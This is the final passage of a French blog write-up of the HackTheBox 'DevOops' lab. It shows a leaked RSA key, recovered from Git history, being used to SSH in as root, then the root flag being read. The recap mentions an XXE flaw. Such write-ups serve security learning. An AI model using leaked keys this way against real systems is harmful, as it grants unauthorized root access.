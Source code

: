 Et on peut voir la présence d'une ancienne clé privée RSA via diff :  

![DevOops HackTheBox CTF Git commit rsa key](https://github.com/devl00p/blog/raw/master/images/htb/devoops_auth_key_diff.png)

Cette fois c'est la bonne :  

```plain
devloop@kali:~/Documents/devoops$ ssh -i old_rsa.key root@10.10.10.91
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.

Last login: Tue Sep  4 06:25:21 2018 from 10.10.15.168
root@gitter:~# id
uid=0(root) gid=0(root) groups=0(root)
root@gitter:~# cat root.txt
d4fe1e7f7187407eebdd3209cb1ac7b3
```

Happy ending
------------

Un challenge sympa qui a permis d'exploiter une faille XXE dans du code Python et nécessitait un XML dans un format spécifique. Fouiller dans Git n'était pas bien compliqué mais rajoutait un peu d'originalité.

*Published October 14 2018 at 08 47*